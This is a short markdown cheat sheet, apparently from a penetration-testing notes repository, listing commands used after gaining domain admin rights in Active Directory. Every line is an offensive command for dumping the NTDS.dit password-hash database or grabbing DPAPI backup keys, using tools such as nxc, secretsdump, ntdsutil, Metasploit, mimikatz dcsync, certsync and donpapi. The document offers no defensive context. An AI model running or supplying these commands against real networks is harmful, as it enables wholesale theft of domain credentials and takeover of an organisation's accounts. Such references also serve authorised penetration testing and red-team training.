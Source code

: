 # Domain admin

## Dump ntds.dit >>> Lateral move || Crack hash
- `nxc smb <dcip> -u <user> -p <password> -d <domain> --ntds`
- `secretsdump.py '<domain>/<user>:<pass>'@<ip>`
- `ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q`
  - `secretsdump.py -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract`
- `msf> windows/gather/credentials/domain_hashdump`
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `certsync -u <user> -p '<password>' -d <domain> -dc-ip <dc_ip> -ns <name_server>`

## Grab backup Keys >>> Credentials
- `donpapi collect - H ':<hash>' <domain>/<user>@<ip_range> -t ALL --fetch-pvk`